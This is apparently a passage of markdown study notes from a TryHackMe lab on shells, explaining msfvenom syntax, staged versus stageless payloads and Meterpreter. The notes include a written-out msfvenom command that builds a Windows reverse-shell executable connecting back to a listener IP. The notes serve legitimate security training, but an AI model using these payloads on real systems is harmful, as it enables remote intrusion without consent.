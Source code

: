 ```bash
$ mkfifo
```

## msfvenom
- Basic syntax
    ```bash
    $ msfvenom -p <PAYLOAD> <OPTIONS>
    ```
    - Example: generate a Windows x64 Reverse Shell in an .exe format:
        ```bash
        $ msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

        # -f <format> Specifies the output format. In this case that is an executable (exe)
        # -o <file> The output location and filename for the generated payload.
        # LHOST=<IP> Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
        # LPORT=<port> The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
        ```

- Staged reverse shell payloads and stageless reverse shell payloads.
    - **Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task. As staged payloads are denoted with another forward slash (/).
    - **Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. Stageless payloads are denoted with underscores (_).

- Meterpreter
    - Meterpreter shells are Metasploit's own brand of fully-featured shell.
    - They are completely stable, making them a very good thing when working with Windows targets.

- Payload Naming Conventions
    - Basic convention:
        ```bash
        <OS>/<arch>/<payload>
